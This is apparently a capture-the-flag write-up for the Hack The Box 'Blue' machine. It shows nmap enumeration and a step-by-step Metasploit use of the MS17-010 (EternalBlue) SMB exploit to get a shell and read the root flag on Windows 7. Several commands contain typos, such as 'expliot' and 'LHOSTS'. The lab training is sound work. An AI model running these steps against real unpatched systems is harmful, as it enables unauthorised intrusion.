 ## Synopsis


## :scroll: TL:DR :scroll:
Get **Privilege Escalation** on a **windows 7 Porfessional 7601 Service Pack 1 computer**.
Therefore find exploit `ms17-010` and run it. 
Take control over the windows computer and find user- en root:flags:.
 
## :rocket: Getting started :rocket:
We spawn the machine by clicking the button 

![ip](../img/blue_ip.png)


and add the given `ip` to our `/etc/hosts` file:
```sh
echo "10.129.231.168 blue.htb" | sudo tee -a /etc/hosts
```
## Enumeration
We start as always with a `nmap` scan 
```sh
nmap -sV -sC -oA blue blue.htb
```
wich result in a interesting open port:

![port 445 scan](../img/blue_port_445.png)


If we scan the port on vulernabilities

```sh
nmap --script smb-vuln-ms17-010 -p445 blue.htb
```
![nmap vulnerability scan](../img/blue_nmap_ms17-010.png)
it revails a vulnerability called `ms17-010` in Microsoft `SMBv1` accorring to **CVE-2017-0143**. 


## Expliotation
With `msfconsole` we can search for an exploit:

1. type `msfconsole` to start metasploit;
2. `search ms17-010`;
3. `use 0`;
4. `show options` gives the options for configuration;
5. `set RHOSTS blue.htb`
6. `set LHOSTS 10.10....`
7. `expliot`
8. `shell`
9. `whoami`
10. `cd \Users\Administrator\Desktop`
11. `type root.txt`

## :old_key:NOTES:old_key:

### :mortar_board: Lessons learned :mortar_board:
1. How to use `msfconsole`;
2. How to explicit scan with `nmap` for a vulnerability scan;
3. Windows does not support linux syntax :nerd:
